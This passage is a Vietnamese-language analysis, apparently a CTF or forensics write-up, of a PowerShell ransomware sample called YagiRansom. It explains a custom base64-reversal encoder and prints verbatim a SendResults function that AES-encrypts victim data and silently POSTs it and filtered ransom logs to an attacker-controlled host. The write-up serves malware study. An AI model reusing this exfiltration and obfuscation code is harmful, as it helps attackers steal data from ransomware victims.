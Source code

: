 Hàm nhận đầu vào là biến `$args`
* Nếu tham số đầu vào đầu tiên là `-t` thì hàm chuyển đổi văn bản thành một mảng `byte` sử dụng mã hóa `UTF-8` . Sau đó mã hóa mảng `byte` này thành chuỗi `base64` và lưu kết quả vào biến `$VaFQ`
* Nếu tham số đầu vào đầu tiên là `-f` thì hàm đọc tất cả `byte` từ tệp và mã hóa mảng `byte` này thành chuỗi `base64` và lưu kết quả vào biến `$VaFQ`

Xử lý kết quả sau khi mã hóa `base64`
* Chia chuỗi tại dấu `"="` (nếu có) và lấy phần trước dấu `"="` => loại bỏ padding trong `base64`
* Thay thế tất cả ký tự `"C"` bằng dấu `"-"`
* Thay thế tất cả ký tự `"E"` bằng dấu `"_"`
* Chuyển đổi chuỗi kết quả thành mảng ký tự `ToCharArray()` và lưu vào `$8bKW`
* Đảo ngược mảng hiện tại, nối thành một chuỗi và lưu vào `$R64Base` 
* Trả về kết quả cuối cùng.

Mô tả chung

```
Hàm sẽ chuyển chuỗi hoặc tệp thành Base64 => loại bỏ padding => thay thế kí tự => đảo ngược kết quả.
```

3. `function SendResults` gửi đi `data` và `logs` thông tin của tiến trình hoạt động.

```powershell
function SendResults {
   $cvf = Invoke-AESEncryption -Key $Uz19o -Text $WiETm ; $cVl = R64Encoder -t $cvf
   $2YngY = "> $cVl > $OgE > $zVSza > $7VEq"
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch
   $XoX = R64Encoder -t $2YngY ; $B64Logs = R64Encoder -t $RansomLogs
   Invoke-WebRequest -useb "$7CiB`:$UFX/data" -Method POST -Body $XoX 2>&1> $null
   Invoke-WebRequest -useb "$7CiB`:$UFX/logs" -Method POST -Body $B64Logs 2>&1> $null }
```

* Tại đây thì hàm sẽ mã hóa theo thuật toán `AES` chuỗi `$WiETm` theo `key` là biến `$Uz19o` và lưu vào biến `$cvf` . Cụ thể hơn các biến này mình sẽ nói sau :v.
* Tiếp theo hàm sẽ gọi tới hàm `function R64Encoder` để mã hóa chuỗi `$cvf` từ kết quả trước đó (ở đây `option` là `-t` tức là text như đã phân tích ở `function R64Encoder` nè) và sau đó lưu vào biến `$cVl`
* Tiếp theo đó là lưu các biến `$cVl` , `$OgE` , `$zVSza` và `$7VEq` vào biến `$2YngY` theo thứ tự và `format` là `$2YngY = "> $cVl > $OgE > $zVSza > $7VEq"`
* Tiếp theo hàm sẽ hoạt động lọc các nội dung của tệp thuộc đường dẫn `$Directory$slash$I26` và chọn lọc ra các dòng, chuỗi mà chứa `[!]` và bỏ đi những dòng chứa chuỗi `YagiRansom!` bằng `option`là `-NotMatch` sau đó  tất cả sẽ được lưu vào biến `$RansomLogs`
* Công việc tiếp theo là gọi hàm `function R64Encoder` để mã hóa biến `$2YngY` và lưu vào `$XoX` . Song song đó cũng gọi hàm `function R64Encoder` để mã hóa biến `$RansomLogs` và lưu vào biến `$B64Logs`
* Sau đó hàm sẽ gọi `Invoke-WebRequest` để đồng thời gửi `$XoX` tới `endpoint` là `$UFX/data` và `$B64Logs` tới `endpoint` là `$UFX/logs` , tất cả k được hiển thị lên kết quả bằng `2>&1> $null`

Mô tả chung 

```
Hàm sẽ mã hóa các chuỗi là giá trị của biến $cvf, $cVl, $2YngY, $RansomLogs thành $XoX gửi tới /data và $B64Logs gửi tới /logs qua HTTP POST
```
